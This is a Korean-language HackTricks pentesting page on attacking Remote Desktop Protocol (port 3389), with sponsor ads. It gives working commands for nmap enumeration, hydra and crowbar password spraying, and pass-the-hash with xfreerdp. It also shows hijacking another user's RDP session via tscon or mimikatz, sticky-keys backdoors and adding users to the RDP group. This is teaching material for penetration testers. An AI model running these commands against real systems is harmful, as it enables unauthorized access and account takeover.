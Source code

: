 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**웹 앱, 네트워크 및 클라우드에 대한 해커의 관점을 얻으세요**

**실제 비즈니스에 영향을 미치는 중요한 취약점을 찾아보고 보고하세요.** 공격 표면을 매핑하고 권한 상승을 허용하는 보안 문제를 찾아내며, 필수 증거를 수집하기 위해 자동화된 익스플로잇을 사용하는 20개 이상의 맞춤형 도구를 사용하세요. 여러분의 노력을 설득력 있는 보고서로 바꾸세요.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## 기본 정보

Microsoft에서 개발한 **원격 데스크톱 프로토콜** (**RDP**)은 네트워크를 통해 컴퓨터 간의 그래픽 인터페이스 연결을 가능하게 하도록 설계되었습니다. 이러한 연결을 설정하기 위해 사용자는 **RDP** 클라이언트 소프트웨어를 사용하고, 동시에 원격 컴퓨터는 **RDP** 서버 소프트웨어를 운영해야 합니다. 이 설정은 원격 컴퓨터의 데스크톱 환경을 원활하게 제어하고 접근할 수 있게 하여, 본질적으로 그 인터페이스를 사용자의 로컬 장치로 가져옵니다.

**기본 포트:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## 열거

### 자동

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

사용 가능한 암호화 및 DoS 취약성을 확인하고(서비스에 DoS를 유발하지 않음) NTLM Windows 정보(버전)를 얻습니다.

### [무차별 대입 공격](../generic-methodologies-and-resources/brute-force.md#rdp)

**주의하세요, 계정이 잠길 수 있습니다**

### **비밀번호 스프레이 공격**

**주의하세요, 계정이 잠길 수 있습니다**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### 알려진 자격 증명/해시로 연결하기
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### RDP 서비스에 대한 알려진 자격 증명 확인

impacket의 rdp\_check.py를 사용하면 일부 자격 증명이 RDP 서비스에 대해 유효한지 확인할 수 있습니다:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**해커의 관점에서 웹 앱, 네트워크 및 클라우드를 살펴보세요**

**실제 비즈니스에 영향을 미치는 중요한 취약점을 찾아보고 보고하세요.** 공격 표면을 매핑하고 권한 상승을 허용하는 보안 문제를 찾아내며, 자동화된 익스플로잇을 사용하여 필수 증거를 수집하는 20개 이상의 맞춤형 도구를 사용하여 귀하의 노력을 설득력 있는 보고서로 전환하세요.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **공격**

### 세션 탈취

**SYSTEM 권한**으로 **어떤 사용자에 의해서도 열린 RDP 세션에** 접근할 수 있으며, 소유자의 비밀번호를 알 필요가 없습니다.

**열린 세션 가져오기:**
```
query user
```
**선택한 세션에 대한 접근**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
이제 선택한 RDP 세션에 들어가게 되며, Windows 도구와 기능만을 사용하여 사용자를 가장하게 됩니다.

**중요**: 활성 RDP 세션에 접근하면 해당 세션을 사용 중인 사용자가 강제로 로그아웃됩니다.

프로세스를 덤프하여 비밀번호를 얻을 수 있지만, 이 방법은 훨씬 빠르며 사용자의 가상 데스크탑과 상호작용할 수 있게 해줍니다 (비밀번호가 디스크에 저장되지 않은 메모장, 다른 머신에서 열린 다른 RDP 세션 등...).

#### **Mimikatz**

이 작업을 수행하기 위해 mimikatz를 사용할 수도 있습니다:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

이 기술을 **stickykeys** 또는 **utilman**과 결합하면 언제든지 관리 CMD와 RDP 세션에 접근할 수 있습니다.

이 기술 중 하나로 백도어가 설정된 RDP를 검색할 수 있습니다: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

다른 도메인에서 또는 **더 나은 권한으로 RDP를 통해 로그인한** 사용자가 **당신이 관리자**인 PC에 접속하면, 그의 **RDP 세션 프로세스**에 당신의 비콘을 **주입**하고 그로서 행동할 수 있습니다:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn**는 Microsoft Windows 컴퓨터에서 **Shadow** 공격을 자동화하기 위해 주로 설계된 Powershell로 생성된 사후 활용 프레임워크입니다. 이 취약점(마이크로소프트에서 기능으로 나열됨)은 원격 공격자가 **피해자의 동의 없이 그의 데스크탑을 볼 수 있게** 하며, 심지어 운영 체제 자체의 도구를 사용하여 필요에 따라 이를 제어할 수 있게 합니다.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* 명령줄에서 자동화된 방식으로 마우스와 키보드 제어
* 명령줄에서 자동화된 방식으로 클립보드 제어
* RDP를 통해 대상에 네트워크 통신을 채널링하는 SOCKS 프록시 클라이언트에서 생성
* 파일을 업로드하지 않고도 대상에서 임의의 SHELL 및 PowerShell 명령 실행
* 파일 전송이 대상에서 비활성화되어 있어도 대상에 파일을 업로드 및 다운로드

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**웹 앱, 네트워크 및 클라우드에 대한 해커의 관점을 얻으세요**

**실제 비즈니스에 영향을 미치는 중요한, 악용 가능한 취약점을 찾아보고 보고하세요.** 20개 이상의 맞춤형 도구를 사용하여 공격 표면을 매핑하고, 권한 상승을 허용하는 보안 문제를 찾아내며, 자동화된 익스플로잇을 사용하여 필수 증거를 수집하여 귀하의 노력을 설득력 있는 보고서로 전환하세요.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
